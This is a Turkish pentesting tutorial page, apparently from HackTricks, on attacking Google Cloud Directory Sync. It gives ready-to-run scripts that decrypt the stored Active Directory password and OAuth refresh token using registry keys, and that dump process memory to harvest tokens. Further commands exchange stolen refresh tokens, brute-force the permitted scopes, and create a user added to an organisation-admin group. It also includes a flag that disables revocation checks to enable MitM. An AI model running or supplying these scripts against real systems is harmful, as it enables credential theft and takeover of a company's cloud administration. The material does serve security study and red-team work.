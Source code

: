 # GCDS - Google Cloud Directory Sync

{{#include ../../../banners/hacktricks-training.md}}

## Temel Bilgiler

Bu, **aktif dizin kullanıcılarınızı ve gruplarınızı Workspace'inize senkronize etmek için kullanılabilecek bir araçtır** (ve bu yazının yazıldığı sırada tam tersi değildir).

İlginçtir ki, bu araç **bir Workspace süper kullanıcısının ve ayrıcalıklı AD kullanıcısının kimlik bilgilerini** gerektirecektir. Bu nedenle, zaman zaman kullanıcıları senkronize eden bir alan sunucusunda bulunması mümkün olabilir.

> [!NOTE]
> **`config-manager.exe`** ikili dosyasına bir **MitM** gerçekleştirmek için `config.manager.vmoptions` dosyasına aşağıdaki satırı ekleyin: **`-Dcom.sun.net.ssl.checkRevocation=false`**

> [!TIP]
> [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) aracının **GCDS**'yi tespit edebildiğini, yapılandırma hakkında bilgi alabileceğini ve **hatta şifreleri ve şifrelenmiş kimlik bilgilerini** elde edebileceğini unutmayın.

Ayrıca, GCDS'nin AD'den Workspace'e şifreleri senkronize etmeyeceğini unutmayın. Eğer bir şey olursa, sadece Workspace'te yeni oluşturulan kullanıcılar için rastgele şifreler üretecektir, bunu aşağıdaki görüntüde görebilirsiniz:

<figure><img src="../../../images/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokenleri & AD Kimlik Bilgileri

`config-manager.exe` ikili dosyası (GUI ile ana GCDS ikilisi) yapılandırılmış Aktif Dizin kimlik bilgilerini, yenileme tokenini ve erişimi varsayılan olarak **`C:\Program Files\Google Cloud Directory Sync`** klasöründe **`Untitled-1.xml`** adlı bir dosyada saklayacaktır. Ancak, bu aynı zamanda kullanıcının `Documents` klasöründe veya **herhangi bir başka klasörde** de kaydedilebilir.

Ayrıca, kayıt defteri **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** içindeki **`open.recent`** anahtarı, en son açılan yapılandırma dosyalarının (xml'lerin) yollarını içerir. Bu nedenle, **bunları bulmak için kontrol etmek mümkündür**.

Dosya içindeki en ilginç bilgiler şunlar olacaktır:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Not edin ki **refresh** **token** ve kullanıcının **şifresi**, rastgele üretilen bir anahtar ve IV ile **AES CBC** kullanılarak **şifrelenmiştir** ve **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** içinde saklanmaktadır (nerede olursa olsun **`prefs`** Java kütüphanesi tercihleri saklar) ve **`/Encryption/Policy/V2.iv`** ile **`/Encryption/Policy/V2.key`** dize anahtarlarında base64 formatında saklanmaktadır.

<details>

<summary>Refresh token ve şifreyi şifrelemek için Powershell scripti</summary>
```bash
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

> [!NOTE]
> Bu bilginin kontrol edilebileceğini unutmayın, **`DirSync.jar`** dosyasının java kodunu **`C:\Program Files\Google Cloud Directory Sync`** konumunda `exportkeys` dizesini arayarak kontrol edebilirsiniz (çünkü bu, `upgrade-config.exe` ikilisinin anahtarları dökmesini beklediği cli parametresidir).

Powershell betiği kullanmak yerine, **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** ikilisini `-exportKeys` parametresi ile kullanarak anahtar ve IV'yi kayıt defterinden hex formatında alabilir ve ardından bu anahtar ve IV ile AES/CBC kullanarak bazı cyberchef araçlarıyla bilgiyi şifre çözebilirsiniz.

### GCDS - Bellekten token dökme

GCPW ile olduğu gibi, `config-manager.exe` sürecinin belleğini dökmek mümkündür (bu, GCDS ana ikilisinin GUI ile olan adıdır) ve yenileme ve erişim tokenlerini bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
Ayrıca AD yapılandırılmış kimlik bilgilerini de bulabileceğinizi düşünüyorum.

<details>

<summary>config-manager.exe süreçlerini dök ve tokenleri ara</summary>
```bash
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrı ile erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Kapsamlar

> [!NOTE]
> Bir refresh token'a sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmenin mümkün olmadığını unutmayın, çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.
>
> Ayrıca, refresh token her uygulamada geçerli değildir.

Varsayılan olarak GCSD, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki scripti kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları brute-force yapmak için Bash scripti</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Bir kullanıcı oluşturun ve bunu `gcp-organization-admins` grubuna ekleyin, GCP'de yükselmeyi deneyin
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
> [!CAUTION]
> Yeni kullanıcıya Super Amin rolü verilemez çünkü **yenileme jetonu gerekli yetkileri vermek için yeterli kapsamda değildir**.

{{#include ../../../banners/hacktricks-training.md}}
